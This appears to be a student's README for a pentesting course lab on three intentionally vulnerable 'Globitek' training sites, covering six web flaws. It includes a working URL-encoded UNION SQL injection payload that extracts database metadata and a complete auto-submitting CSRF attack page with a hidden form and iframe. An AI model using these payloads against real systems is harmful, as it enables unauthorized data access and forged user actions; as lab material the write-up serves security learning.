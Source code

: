 # Project 8 - Pentesting Live Targets

Time spent: 7 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

### Vulnerability #1: __SQL Injection and Extra Bonus__
    By using ``` https://104.155.169.96/blue/public/salesperson.php?id=%27%20union%20select%201,(select%20concat(%222select%20database()%20is%20%22,%20(select%20database()))),(select%20concat(%22-----------------3select%20user()%20is%20%22,%20(select%20user()))),(select%20concat(%224select%20version()%20is%20%22,%20(select%20version()))),5%20--%20 ``` I can make the id query come back with some unioned table and database metadata - things an attacker should not have access to!
    
![](https://github.com/nke5ka/codepathWeek8/blob/master/blue1.gif)

### Vulnerability #2: __Session Hijacking/Fixation__
    By using the built in session changing tool, I can steal the session ID from one user and login as them without credential checking.
    
![](https://github.com/nke5ka/codepathWeek8/blob/master/blue2.gif)

## Green

### Vulnerability #1: __User Enumeration__
    Using logins that have a real username leads to a bolded error message, but logins using nonexistent username leads to an unbolded error message.
    
![](https://github.com/nke5ka/codepathWeek8/blob/master/green1.gif)

### Vulnerability #2: __Cross Site Scripting__
    By using script alert, an attacker can add a comment which when viewed leads to execution of arbitrary javascript.
    
![](https://github.com/nke5ka/codepathWeek8/blob/master/green2.gif)
![](https://github.com/nke5ka/codepathWeek8/blob/master/green2b.gif)

## Red

### Vulnerability #1: __Insecure Direct Object Reference__
    A non logged in user can access any salesperson by changing their ID - even ones not listed.
    
![](https://github.com/nke5ka/codepathWeek8/blob/master/red1.gif)
    
### Vulnerability #2: __Cross Site Request Forgery__
    By accessing a hacker's page with the following html, a logged in user can unknowingly change values via post request to be the values the hacker desires.
    
![](https://github.com/nke5ka/codepathWeek8/blob/master/red2.gif)
    
```
<html>
<!-- <body onload="document.form2Sub.submit()"> -->
<iframe name="secretsarenofun" src="#" style="display: none;">
</iframe>
<form action="https://104.155.169.96/red/public/staff/countries/edit.php?id=2" method="post" name="form2Sub" id="formYesPls" target="secretsarenofun">
    <input type="hidden" name="name" value="Canadia555HACKED" />
    <input type="hidden" name="code" value="CA" />
</form>
Welcome to my not sketchy site - enjoy visiting, don't look at the source code or even think this is weird or sketchy.  Oh hai there.
<!--</body>-->
<script>
var sketchyform = document.getElementById("formYesPls");
sketchyform.style.display = "none";
sketchyform.submit();
</script>
</html>
```

## Notes
Lots of fun!
Only Firefox by default allows xframeoptions to load offsite
Bonus Objective 1: SQL goes beyond just showing the database injection, but also get important information about the system.
